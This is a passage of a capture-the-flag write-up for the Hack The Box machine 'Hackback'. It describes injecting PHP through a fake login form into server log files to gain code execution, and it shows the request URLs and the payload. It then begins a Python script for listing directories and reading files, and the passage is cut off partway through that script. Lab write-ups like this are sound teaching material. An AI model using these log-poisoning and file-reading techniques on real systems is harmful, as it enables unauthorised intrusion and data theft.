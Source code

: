 ![](/assets/images/htb-writeup-hackback/admin_list.png)

Note: I still get a 302 redirect so initially I missed it when I was using the browser to check it. With Burp, it showed up in the response.

The `list` command shows the content of a directory that contains some log files. I tried using the `show` action to see the content of the log file by specifying the filename in the `session` parameter but I always got a `Wrong identifier!` error message. I tried various parameters and I got stuck at this point for a long time until I realized that when I try to log in to the fake HTB website found earlier a new log file is created.

![](/assets/images/htb-writeup-hackback/admin_list2.png)

The filename is always the same, even after a box reset so there is something unique associated to my own machine. The only thing unique to my session is the IP address from my machine. I checked the SHA256 hash for my IP 10.10.14.23 and I got `fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79`: a match for the log file name.

I tried the `show` action with the session ID for my IP address: `/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79`

![](/assets/images/htb-writeup-hackback/admin_show.png)

The log file contains the POST parameters that I sent on the fake HTB site. So at this point I was hoping I could get RCE by injecting PHP code into the logs. I tested this theory by sending the following payload in the password field: `<?php echo (1+1); ?>`

I checked the logs and saw that my PHP was executed:

![](/assets/images/htb-writeup-hackback/confirm_php_rce.png)

Adding a bunch of PHP code in the same log file can get pretty messy when testing multiple payloads so I clean up the log file everytime I test different payloads by first calling the `init` action to reset the log file.

I tried unsuccessfully to get a reverse shell but realized that all the common functions used for RCE appeared to be blocked. There's also an outbound firewall configured on the box so we can't get a connection back.

Listing files and directories wasn't blocked and I could also read files. I wrote a script that does the following:

- Cleans up the logfile by calling the `init` action
- If only one parameter is specified, it'll use the `scandir` function to list the directory contents
- If two parameters are specified, it'll read the directory + file with the `file_get_contents` function

Warning, bad python code below:

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79");
print r.status_code

if len(sys.argv) == 2: # List directories
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
```